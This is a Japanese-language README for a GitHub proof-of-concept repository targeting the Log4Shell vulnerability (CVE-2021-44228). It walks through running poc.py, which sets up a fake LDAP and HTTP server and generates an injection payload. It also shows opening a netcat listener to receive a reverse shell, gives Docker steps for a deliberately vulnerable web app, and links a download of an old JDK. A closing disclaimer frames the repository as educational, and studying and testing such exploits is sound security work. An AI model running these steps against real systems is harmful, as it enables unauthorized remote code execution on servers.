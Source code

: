 # log4j-shell-poc
CVE-2021-44228(通称Log4shell)に対するPoC。  
最近、ElasticSearchや Minecraftなどで広く使われている Javaのロギングライブラリlog4jに新たな脆弱性が発見されました。

このリポジトリでは、脆弱性のあるアプリケーションの例と、その脆弱性を利用したPoCの例を作成しています。


実行プロセス
----------------------------------------

Vuln Webアプリケーション:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


概念実証(PoC)
----------------------

PoCとして、プロセスを自動化するPythonファイルを作成しました。


```bash
pip install -r requirements.txt
```
#### :


* netcatリスナーを起動して、リバースシェル接続を受け入れます。<br>
```py
nc -lvnp 9001
```
* エクスプロイトを起動します。 <br>
**Note:** この作業を行うには、解凍したjavaアーカイブの名前が `jdk1.8.0_20` であり、同じディレクトリにある必要があります。
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/NT25-CTF/log4j-shell-poc-ja

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send Exploit Code Port:1389

Listening on 0.0.0.0:1389
```

このスクリプトは、HTTPサーバーとLDAPサーバーをセットアップし、脆弱なパラメーターに貼り付けるために使用できるペイロードも作成します。 この後、すべてがうまくいけば、lportにシェルを取得する必要があります。 

<br>


脆弱性が含まれるアプリケーション
--------------------------

脆弱なWebアプリケーションにDockerfileを追加しました。 これは、以下の手順に従って使用できます。 
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
実行すると、localhost:8080でアクセスできます。

プロジェクトをさらに開発したい場合は、プロジェクトの開発に使用したIntellijIDEを使用できます。 また、作業を少し簡単にする構成ファイルがある`.idea`フォルダーも含まれています。 おそらく他のIDEも使用できます。 



jdkバージョンの取得
--------------------------------------

Exploitを作成した時点では、どのバージョンのJavaが動作し、どのバージョンが動作しないのかがはっきりしなかったため、Java 8の最も古いバージョンの1つである`java-8u20`で動作させることにしました。

```
> https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing
```

アーカイブをダウンロードして解凍すると、`java` といくつかの関連するバイナリが `jdk1.8.0_20/bin` の中にあります。  
**注意：** 動作させるためには、このリポジトリにjdkフォルダを同名で展開するようにしてください。

```
> tar -xf jdk-8u20-linux-x64.tar.gz

> ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

免責事項
----------
このリポジトリは、CVE-2021-44228へのワンクリックエクスプロイトを目的としたものではありません。 このプロジェクトの目的は、人々がこの素晴らしい脆弱性について学び、おそらく自分のアプリケーションをテストするのを助けることです（ただし、この目的のためのより良いアプリケーションがあります。 [https://log4shell.tools/](https://log4shell.tools/))

私たちのチームは、悪意のある活動に対するこのエクスプロイトの使用を支援または推奨しません。したがって、支援を求める場合は、ターゲットサービスを所有しているか、ペネトレーションテストを行う権限があることを証明するものを提供する必要があります。
